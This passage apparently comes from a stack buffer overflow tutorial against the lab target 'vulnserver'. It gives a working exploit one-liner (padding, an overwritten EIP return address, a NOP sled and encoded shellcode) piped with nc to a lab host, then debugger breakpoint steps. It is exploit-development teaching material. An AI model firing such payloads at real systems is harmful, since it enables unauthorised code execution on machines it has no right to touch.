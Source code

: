 ![bo-037.png](/assets/images/bo-037.png)
**Figure 37** Our return address for EIP.

So now our full code contain the EIP which is `\xcb\xa0\x04\x08`, and we end up with the following code block that we should run against out target:

```
echo $(python2 -c "print 'HELP'+'A'*68+'\xcb\xa0\x04\x08'+'\x90'*32+'\xbd\x48\xeb\xf5\x4c\xda\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x31\x68\x12\x83\xc0\x04\x03\x20\xe5\x17\xb9\x81\x22\x20\xa1\xb2\x97\x9c\x4c\x36\x91\xc2\x21\x50\x6c\x84\xd1\xc5\xde\xba\x18\x75\x57\xbc\x5b\x1d\xa8\x96\xe2\xfd\x40\xe5\x1a\xfc\x2b\x60\xfb\x4e\x2d\x23\xad\xfd\x01\xc0\xc4\xe0\xab\x47\x84\x8a\x5d\x67\x5a\x22\xca\x58\xb3\xd0\x63\x2e\x28\x46\x27\xb9\x4e\xd6\xcc\x74\x10'+'\x90'*(100-95)")|nc 192.168.126.36 8080
```

On EDB we start the vulnserver over, and this time we make some breakpoint to see if the return address will forward the instruction to our code, we need to click on Plugins>BreakpointMaster>Breakpoints, then we need to insert out break point which is `0x0804b0cb`, just click on add and addup the address.

![bo-038.png](/assets/images/bo-038.png)
**Figure 38** Adding breakpoint.
